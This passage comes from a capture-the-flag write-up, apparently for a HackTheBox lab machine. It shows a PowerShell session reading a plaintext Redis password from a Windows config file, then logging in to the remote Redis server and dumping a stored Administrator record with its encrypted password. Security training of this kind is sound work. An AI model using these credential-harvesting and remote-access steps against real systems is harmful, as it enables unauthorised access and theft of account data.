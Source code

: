 It looks like redis is being used with kanban. Let’s access Redis configuration file for any stored credentials.

\## Read redis config file

```
PS C:\Program Files\redis> get-childitem
get-childitem


    Directory: C:\Program Files\redis


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/2/2021   7:31 AM                Logs
-a----          7/1/2016   3:54 PM           1024 EventLog.dll
-a----          7/1/2016   3:52 PM          12618 Redis on Windows Release Notes.docx
-a----          7/1/2016   3:52 PM          16769 Redis on Windows.docx
-a----          7/1/2016   3:55 PM         406016 redis-benchmark.exe
-a----          7/1/2016   3:55 PM        4370432 redis-benchmark.pdb
-a----          7/1/2016   3:55 PM         257024 redis-check-aof.exe
-a----          7/1/2016   3:55 PM        3518464 redis-check-aof.pdb
-a----          7/1/2016   3:55 PM         268288 redis-check-dump.exe
-a----          7/1/2016   3:55 PM        3485696 redis-check-dump.pdb
-a----          7/1/2016   3:55 PM         482304 redis-cli.exe
-a----          7/1/2016   3:55 PM        4517888 redis-cli.pdb
-a----          7/1/2016   3:55 PM        1553408 redis-server.exe
-a----          7/1/2016   3:55 PM        6909952 redis-server.pdb
-a----          4/2/2021   7:39 AM          43962 redis.windows-service.conf
-a----          4/2/2021   7:37 AM          43960 redis.windows.conf
-a----          7/1/2016   9:17 AM          14265 Windows Service Documentation.docx

PS C:\Program Files\redis> get-content redis.windows.conf
get-content redis.windows.conf
# Redis configuration file example
requirepass kidvscat_yes_kidvscat

------------SNIP--------------
```

We got the Redis credentials, let’s access Redis via our machine. FOr that we need redis-cli application. We can install it via package manager.

\## Install Redis-Tools

```
⛩\> sudo apt install redis-tools
```

Let’s authenticate via found credentials and look for any stored keys.

\## Access remote redis

```
⛩\> redis-cli -h atom.htb -a 'kidvscat_yes_kidvscat'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
atom.htb:6379> KEYS *
1) "pk:ids:User"
2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
4) "pk:ids:MetaDataClass"
atom.htb:6379> DUMP "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
"\x00\xc3@\xc6@\xcf\x1f{\"Id\":\"e8e29158d70d44b1a1ba4949d\r52790a0\",\"Name )\x0cAdministrator \x16\aInitials \x1a \r\x04Email\xa0\n\x0encryptedPasswor@f\x1fOdh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi A\x02Rol\xe0\x00f \x0e\x06Inactiv \x12\x00f d\x1fe,\"TimeStamp\":637530169606440253\x00}\x06\x00\xd0uP\xdf[\x980\xb3"
atom.htb:6379>
```